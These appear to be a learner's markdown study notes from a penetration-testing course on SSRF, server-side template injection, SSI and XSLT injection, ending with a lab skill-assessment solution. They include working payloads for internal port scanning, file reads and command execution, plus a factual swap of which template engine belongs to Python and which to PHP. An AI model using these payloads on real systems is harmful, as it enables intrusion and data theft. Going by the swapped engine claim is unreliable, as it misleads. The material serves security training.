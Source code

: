 # Server Side Attacks
Four classes of server-side vulnerabilities:
- Server-Side Request Forgery (SSRF): is a vulnerability where an attacker can manipulate a web application into sending unauthorized requests from the server. This vulnerability often occurs when an application makes HTTP requests to other servers based on user input. Successful exploitation of SSRF can enable an attacker to access internal systems, bypass firewalls, and retrieve sensitive information.
- Server-Side Template Injection (SSTI): Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a Server-Side Template Injection vulnerability can occur. 
- Server-Side Includes (SSI) Injection: Similar to server-side templates, server-side includes (SSI) can be used to generate HTML responses dynamically. SSI directives instruct the webserver to include additional content dynamically. These directives are embedded into HTML files. For instance, SSI can be used to include content that is present in all HTML pages, such as headers or footers. When an attacker can inject commands into the SSI directives, Server-Side Includes (SSI) Injection can occur. SSI injection can lead to data leakage or even remote code execution.
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection: XSLT (Extensible Stylesheet Language Transformations) server-side injection is a vulnerability that arises when an attacker can manipulate XSLT transformations performed on the server. XSLT is a language used to transform XML documents into other formats, such as HTML, and is commonly employed in web applications to generate content dynamically. In the context of XSLT server-side injection, attackers exploit weaknesses in how XSLT transformations are handled, allowing them to inject and execute arbitrary code on the server.

## Identifying SSRF
- If there is a variable name in the POST which contains a URL, this indicates that the web server fetches the availability information from a separate system determined by the URL passed in this POST parameter.
- To confirm an SSRF vulnerability, let us supply a URL pointing to our system to the web application in that variable.
  - `dateserver=http://your_ip:8000/ssrf` etc 
- Use NetCat: `nc -lnvp 8000`
- To determine whether the HTTP response reflects the SSRF response to us, let us point the web application to itself by providing the URL `http://127.0.0.1/index.php` and if the HTML response includes the file then youre in business.
- You can then use this SSRF to enumerate the ports e.g `dateserver:http://127.0.0.1:81`, assuming that it's closed we might get an error message back in the response. Do this for each port and youve essentially done an NMAP scan.
- Enumerate this with Burp and a wordlist of numbers and inspect the responses to see which ports are open.
- Quickly make a word list of numbers 1 -- > 10,000: `seq 1 10000 > ports.txt`

# [Gopher Protocol](https://github.com/tarunkant/Gopherus)
- As we have seen previously, we can use SSRF to access restricted internal endpoints. However, we are restricted to GET requests as there is no way to send a POST request with the http:// URL scheme. 
- Use the gopher URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.
- We can use the gopher protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool Gopherus to generate gopher URLs for us. The following services are supported:
```
    MySQL
    PostgreSQL
    FastCGI
    Redis
    SMTP
    Zabbix
    pymemcache
    rbmemcache
    phpmemcache
    dmpmemcache
```
## Blind SSRF
In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called blind SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. 
- Need a NetCat listener to see if an SSRF exists
- Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For whether we're testing for different ports or different services - enumerate the responses!

## Template Engines
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses. An everyday use case for template engines is a website with shared headers and footers for all pages. A template can dynamically add content but keep the header and footer the same. This avoids duplicate instances of header and footer in different places, reducing complexity and thus enabling better code maintainability. 
- The process of identifying an SSTI vulnerability is similar to the process of identifying any other injection vulnerability, such as SQL injection. The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior. As such, the following test string is commonly used to provoke an error message in a web application vulnerable to SSTI, as it consists of all special characters that have a particular semantic purpose in popular template engines:

`${{<%[%'"}}%\.`

Since the above test string should almost certainly violate the template syntax, it should result in an error if the web application is vulnerable to SSTI.
To enable the successful exploitation of an SSTI vulnerability, we first need to determine the template engine used by the web application. We can utilize slight variations in the behavior of different template engines to achieve this. For instance, consider the following commonly used overview containing slight differences in popular template engines:
![image](https://github.com/user-attachments/assets/e6753a74-123c-4495-ae58-792a5b4ebc3f)
- The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be 7777777, while in Twig, the result will be 49.
- If the mathematical functoin is not executed, then that's a fail and you should follow the red arrow.
- we can obtain the web application's configuration using the following SSTI payload: `{{ config.items() }}`
- Python code to read the flag: `{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}`
- Twig is for Python and Kinja is for PHP
- PHP code to read flag: `{{ ['cat /flag.txt'] | filter('system') }}`

## SSI Injection 
Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.

## XSLT Injection
eXtensible Stylesheet Language Transformation (XSLT) is a language enabling the transformation of XML documents. For instance, it can select specific nodes from an XML document and change the XML structure.
- PHP `<xsl:value-of select="php:function('file_get_contents','/flag.txt')" />`

- Skill Assessment ended up being capturing the POST request to truckapi and manipulating the values there. 

`api=http://truckapi.htb/?id%3D{{['cat\x20/flag.txt']|filter('system')}}`

The key was the hexadecimal 'space' - it failed if the space was URL encoded




